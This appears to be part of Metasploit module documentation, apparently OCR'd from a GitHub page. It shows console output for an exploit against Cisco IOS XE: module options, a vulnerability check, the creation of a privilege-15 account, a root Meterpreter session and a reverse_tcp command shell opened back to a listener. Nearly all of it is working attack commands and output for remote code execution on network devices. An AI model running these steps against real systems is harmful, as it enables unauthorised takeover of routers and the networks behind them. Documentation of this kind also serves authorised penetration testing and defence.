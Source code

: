 ```
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST           eth0             yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      UoDekiVI         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/cisco_ios_xe_rce) > check 
[+] 192.168.86.114:443 - The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'XpJaBQIt' with password 'qEBrzlDh'
[*] Removing user 'XpJaBQIt'
[*] Sending stage (3045380 bytes) to 192.168.86.114
[*] Meterpreter session 7 opened (192.168.86.122:4444 -> 192.168.86.114:61922) at 2025-03-03 20:34:05 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : test2_c1000v
OS           :  (Linux 4.19.64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set target 0
target => 0
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/shell/reverse_tcp
payload => cmd/linux/http/x64/shell/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'vmoCbNcA' with password 'UgDnLaCG'
[*] Removing user 'vmoCbNcA'
[*] Sending stage (38 bytes) to 192.168.86.114
[*] Command shell session 8 opened (192.168.86.122:4444 -> 192.168.86.114:61940) at 2025-03-03 20:34:58 +0000

id
```